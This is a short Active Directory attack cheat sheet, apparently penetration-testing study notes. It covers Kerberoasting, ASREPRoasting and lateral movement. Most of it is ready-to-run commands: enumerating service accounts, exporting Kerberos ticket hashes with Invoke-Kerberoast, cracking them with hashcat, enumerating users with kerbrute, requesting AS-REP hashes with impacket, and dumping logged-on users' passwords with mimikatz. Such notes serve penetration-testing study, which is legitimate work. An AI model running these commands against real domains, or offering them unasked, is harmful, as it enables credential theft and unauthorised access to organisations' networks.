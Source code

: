 The service ticket is encrypted through the password hash of the SPN. So, We can request a service ticket from DC, extract and attemp to crack the password of the service account.

**Find all users with an SPN set (likely service accounts)**

```powershell
Get-DomainUser -SPN
```

The **Invoke-Kerberoast.ps1** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.

```powershell
Import-Module C:\Windows\Temp\Invoke-Kerberoast.ps1 
```

```powershell
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast 
```

```powershell
hashcat -m 13100 --force -a 0 hashes.kerberoast rockyou 
```

### ASREPRoasting

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

If don't have any domain username, let's enumerate

```bash
./kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
```

Then, use `GetNPUsers` to request ticket

```bash
impacket-GetNPUsers domain.local/svc-admin -no-pass
```

Then, crack the hash

```bash
hashcat -m 18200 -a 0 hash.kerberos passwordlist.txt
```

## Lateral movement

### Mimikatz - Cached Credential

Dump the credentials of all logged-on users:

```powershell
mimikatz.exe "priviledge::debug" "sekurlsa::logonpasswords" exit
```
